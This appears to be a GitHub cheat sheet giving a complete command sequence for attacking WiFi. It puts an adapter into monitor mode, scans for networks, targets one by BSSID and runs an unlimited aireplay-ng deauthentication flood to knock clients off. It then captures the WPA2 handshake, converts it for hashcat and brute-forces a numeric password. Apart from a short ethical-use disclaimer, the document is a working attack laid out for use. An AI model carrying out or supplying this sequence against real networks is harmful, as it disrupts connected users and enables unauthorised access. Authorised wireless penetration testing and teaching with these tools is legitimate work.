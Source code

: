 # 📜 All Commands for WiFi Deauth & WPA2 Cracking

> **Note:** These commands are intended for ethical hacking in authorized environments only. ⚠️

## 1️⃣ Check WiFi Dongle Status

```bash
iwconfig
```

## 2️⃣ Enable Monitor Mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan1
iwconfig
```

## 3️⃣ Discover Nearby WiFi Networks

```bash
sudo airodump-ng wlan1
```

## 4️⃣ Target a Specific Network

```bash
sudo airodump-ng wlan1 -d C0:C9:E3:83:26:46
```

## 5️⃣ Deauthenticate Connected Devices

```bash
sudo aireplay-ng --deauth 0 -a C0:C9:E3:83:26:46 wlan1
```

## 6️⃣ Capture WPA2 Handshake

```bash
sudo airodump-ng -w hack1 -c 4 --bssid C0:C9:E3:83:26:46 wlan1
```

## 7️⃣ Convert .cap to .hc22000 Format

```bash
sudo hcxpcapngtool -o wpa2.hc22000 hack1-01.cap
```

## 8️⃣ Crack the WPA2 Password with Hashcat

```bash
hashcat -m 22000 -a 3 wpa2.hc22000 ?d?d?d?d?d?d?d?d
```

## 9️⃣ (Optional) Restore Network Services

```bash
sudo service NetworkManager restart
```

---

> 🔐 Always use these tools responsibly. Unauthorized access is illegal.
